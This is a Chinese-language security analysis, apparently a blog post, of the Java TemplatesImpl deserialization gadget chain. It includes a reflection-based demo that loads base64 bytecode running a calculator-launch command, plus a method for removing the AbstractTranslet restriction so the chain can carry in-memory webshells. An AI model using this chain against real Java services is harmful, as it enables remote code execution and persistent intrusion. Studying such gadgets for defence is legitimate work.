








# TemplatesImpl 分析及 AbstractTranslet 继承移除

## 0x01 TemplatesImpl

com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl 实现了 Serializable接口，该类存在一个 `getTransletInstance()` 方法会将 `_class` 数组下标为 `_transletIndex` (即-1)的值实例化，如果该数组及下标值可控，则我们可以执行任意代码。



在进入 getTransletInstance() 方法时，先判断 `_name` 不为空时继续执行，当 _class 为空时进入 defineTransletClasses() 方法，跟进分析。首先对`_bytecodes` 进行了一个判断 null 时抛出异常，非空时则调用 classloader 加载，因此需要满足`_tfactory`也不为空。



然后将 `_bytecodes` 存入 `_class` 中，同时会判断父类是否为 `com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet` ，满足条件时 `_transletIndex` 置为当前值，否则为默认值 -1 抛出错误。



所以总结一下满足这几个条件

1. `_bytecodes` 不为空，并且为期望执行的 JavaClass 代码
2. `_name` 不为空
3. `_tfactory` 继承 `AbstractTranslet` 父类

这时再返回 `getTransletInstance()` 方法时就得到了一个完全可控的实例化对象。

`newTransformer()` 调用 `getTransletInstance()`



`getOutputProperties()` 调用 `newTransformer()`



所以整个流程为 `TemplatesImpl#getOutputProperties()` ->  `TemplatesImpl#newTransformer()` -> `TemplatesImpl#getTransletInstance()` -> `TemplatesImpl#defineTransletClasses()` ，可以根据需要以不同的方法进行调用。

demo

```java
public static void TemplatesImplTest() throws Exception {
    String calcBase64 = "yv66vgAAADQAMAoABwAiCgAjACQIACUKACMAJgcAJwcAKAcAKQEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAgTGNvbS93aG9vcHN1bml4L3Z1bC91dGlscy9FeGVjMjsBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhkb2N1bWVudAEALUxjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NOwEACGhhbmRsZXJzAQBCW0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAKRXhjZXB0aW9ucwcAKgEAEE1ldGhvZFBhcmFtZXRlcnMBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEACDxjbGluaXQ+AQANU3RhY2tNYXBUYWJsZQcAJwEAClNvdXJjZUZpbGUBAApFeGVjMi5qYXZhDAAIAAkHACsMACwALQEAFm9wZW4gLWEgQ2FsY3VsYXRvci5hcHAMAC4ALwEAE2phdmEvbGFuZy9FeGNlcHRpb24BAB5jb20vd2hvb3BzdW5peC92dWwvdXRpbHMvRXhlYzIBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwAhAAYABwAAAAAABAABAAgACQABAAoAAAAvAAEAAQAAAAUqtwABsQAAAAIACwAAAAYAAQAAAAwADAAAAAwAAQAAAAUADQAOAAAAAQAPABAAAwAKAAAAPwAAAAMAAAABsQAAAAIACwAAAAYAAQAAABcADAAAACAAAwAAAAEADQAOAAAAAAABABEAEgABAAAAAQATABQAAgAVAAAABAABABYAFwAAAAkCABEAAAATAAAAAQAPABgAAwAKAAAASQAAAAQAAAABsQAAAAIACwAAAAYAAQAAABwADAAAACoABAAAAAEADQAOAAAAAAABABEAEgABAAAAAQAZABoAAgAAAAEAGwAcAAMAFQAAAAQAAQAWABcAAAANAwARAAAAGQAAABsAAAAIAB0ACQABAAoAAABPAAIAAQAAAA64AAISA7YABFenAARLsQABAAAACQAMAAUAAwALAAAAEgAEAAAADwAJABEADAAQAA0AEgAMAAAAAgAAAB4AAAAHAAJMBwAfAAABACAAAAACACE=";
    byte[] bytes = java.util.Base64.getDecoder().decode(calcBase64);
    com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl templates = new com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl();
    Reflections.setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
    Reflections.setFieldValue(templates, "_name", "anystr");
    Reflections.setFieldValue(templates, "_tfactory", new com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl());
    templates.newTransformer();
}
```

## 0x02 去除 AbstractTranslet 限制

在之前的分析中，我们使用 `TemplatesImpl` 实现了字节码加载。但在之前的分析中提到在对 `TemplatesImpl` 类进行实例化时，会进行一系列的条件约束，其中实例化类必须要继承 AbstractTranslet ，在这个约束下我们依然可以通过执行简单的命令。但在实际的攻防场景中，这种方式就存在相当大的局限性，比如 websocket 内存马需要继承其他类，因此有必要去除 AbstractTranslet 。

在之前的分析中，在 `if (_class == null) defineTransletClasses();` 有关于 `AbstractTranslet` 的判断，当继承该类时，会对`_transletIndex` 进行赋值，最后不满足 <0 的条件不报错。



与其他属性不一样，`_transletIndex` 没有被标记为 `transient` ，因此我们可以直接反射修改这个值来规避异常抛出。


当类不继承  `AbstractTranslet` 时，会向 `_auxClasses` 中 put 数据，而 `_auxClasses` 默认为 null 执行会报错，因此需要实例化 `_auxClasses`。而我们看到在代码前面有一个判断，当  `classCount` 大于 1 ，即 `_bytecodes` 传入多个类时会将 `_auxClasses` 赋值为 HashMap。



defineTransletClasses() 执行完毕后返回 getTransletInstance() 以 `_transletIndex `为索引获取 `_class` 中的字节码来实例。

最后在 ysoserial 中改造如图



**参考**

> Java安全攻防之从wsProxy到AbstractTranslet https://www.anquanke.com/post/id/278639